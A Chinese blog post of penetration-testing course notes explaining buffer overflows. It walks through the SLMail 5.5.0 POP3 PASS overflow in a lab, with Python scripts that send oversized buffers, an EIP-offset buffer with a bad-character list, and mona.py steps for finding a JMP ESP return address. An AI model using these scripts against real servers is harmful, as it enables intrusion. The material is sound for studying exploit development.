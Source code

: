 ```yaml
---
layout:     post
title:      9.kali缓冲区溢出
subtitle:   渗透第九章
date:       2021-10-28
author:     Sprint#51264
header-img: img/post-bg-universe.jpg
catalog: true
tags:
    - 安全牛

---
```

<!-- TOC -->

- [引言](#%E5%BC%95%E8%A8%80)
- [缓冲区溢出概念](#%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%A6%82%E5%BF%B5)
- [Windows缓冲区溢出](#windows%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA)
    - [FUZZER](#fuzzer)
    - [POP3](#pop3)
- [FUZZING](#fuzzing)

<!-- /TOC -->

# 引言

根据苑房弘老师讲的安全牛KALI渗透过程总结

>FANGHONG.YUAN@163.COM


# 缓冲区溢出概念

* 什么是缓冲区?

    内存中的一个片段,用来存储程序的临时数据

* 漏洞根源

    计算机程序可以接收参数，但是数据放入之后代码和数据计算机可能无法辨别，导致数据混入代码执行

    攻击者通过变形、构造来绕过过滤非法注入

* 什么是缓冲区溢出?

    缓冲区边界没有做限制，用户输入的数据过大，溢出占用其他程序的缓冲区

* 如何发现缓冲区溢出?

    * 源码审计
    * 逆向工程
    * 模糊测试

        向程序堆栈半随机的数据，根据内存变化判断溢出

        测试工具:识别溢出漏洞

# Windows缓冲区溢出

* 环境简介

    SLMail 5.5.0 Mail Server 缓冲区漏洞发现

    ImmunituDebugger_1_85_setup.exe

    mona.py 
    >mona脚本放到immunity debugger的pyCommands目录下

## FUZZER

* DEP

    保护机制，数据段的内容无法被当作代码段执行

* ASLR

    动态地址分配系统，程序加载调用的地址不固定

## POP3

* NC 192.168.197.132 110

    USER xxx 
    PASS xxx(数据足够大造成缓冲区溢出)


    ```s
    #!/user/bin.python
    import socket
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        print "\nSending evil buffer..."
        s.connect(('192.168.1.119',110))
        data=s.recv(1024)
        print data

        s.send('USER xxx'+'\r\n')
        data=s.recv(1024)
        print data

        s.send('USER xxx'+'\r\n')
        data=s.recv(1024)
        print data

        s.close()
        print "\nDone!"

    except:

        print "Coulld not connect to POP3"        
    ```

* 查RFC查看协议具体内容

* EIP

    EIP存放下一条指令的位置

* 过程

    * metasploit-framework/tools/pattern-create.rb 2700#生成唯一字符串，四个为一组，生成2700长度(现在kali貌似没有这个脚本了？只能import)

    * pattern_offset xxxx #计算xxxx在唯一字符串中的偏移量

    * 得知溢出到覆盖EIP地址内容的字符串位置在哪

    * 在指定内存空间存放shellcode

    * 覆盖EIP导致系统直接跳转到指定位置执行shellcode


# FUZZING

* 溢出测试

    向服务器端口发送一定长度的字符串，查看debugger

    * 二分法

        用二分法检验多长字符串可以导致溢出，具体溢出与否查看EIP内容

    * 唯一字符串

        生成唯一字符串发送给服务器，用debugger查看EIP内容，返回唯一字符串中查找该EIP内容所在位置，即可推断出数据内容上限

    ```python
    #!/usr/bin/python

    import socket

    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    buffer='A'*2606+'B'*4+'C'*900

    try:
        print "\nSending evil buffer..."
        s.connect(('192.168.197.132',110))
        date=s.recv(1024)
        s.send('USER test'+'\r\n')
        data=s.recv(1024)
        s.send('PASS'+buffer+'\r\n')
        print "\nDone!"
    except:
        print "Could not connect to POP3!"


    ```

* 检验坏字符

    * 什么是坏字符

        被系统过滤的字符，非法字符

    * 过程

        在原先溢出数据的基础上，将所有可能字符发送给服务器端，通过debugger查看哪些被过滤

    ```python

    #!/usr/bin/python

    import socket

    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    badchars="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

    #\0a\00

    buffer="A"*2607+"B"*4+badchars
    try:
        print "\nSending evil buffer..."
        s.connect(('192.168.197.132',110))
        date=s.recv(1024)
        s.send('USER test'+'\r\n')
        data=s.recv(1024)
        s.send('PASS'+buffer+'\r\n')
        print "\nDone!"
    except:
        print "Could not connect to POP3!"

    ```




>理想状态下是找到溢出长度，测试ESP长度，填入shellcode，更改EIP指向地址为ESP，但是ESP的地址并不是固定的，系统重启或者内存地址会更改，会导致无法找到ESP进行shellcode执行

* 变通思路

    * 系统自带模块

        找到固定地址的系统自带模块，其中会包含大量的指令，不免有`JMP ESP`这一条地址跳转指令，由该指令间接跳转到ESP执行`shellcode`

    * `mona.py`

        mona脚本识别内存模块，搜索`return address`是`JMP ESP`指令的模块

        在immunity debugger最下方的输入框可以执行外部的python脚本



        ```s
        !mona modoules#查看所有模块

        #Rebase属性表示系统重启之后内存地址是否发生变化，我们要找的肯定是False

        #后面三个属性是操作系统保护机制，我们要找不受保护的模块

        #OS DLL必须为true，就是系统自带的库，只有系统自带我们才能在不同的机器上执行
        Openc32.dll符合，要继续找有没有JMP ESP

        !mona find -s "" -m Openc32.dll 
        #不能直接找JMP ESP，现在的层面是操作系统层面，只能找命令对应的二进制而不是汇编指令
        ```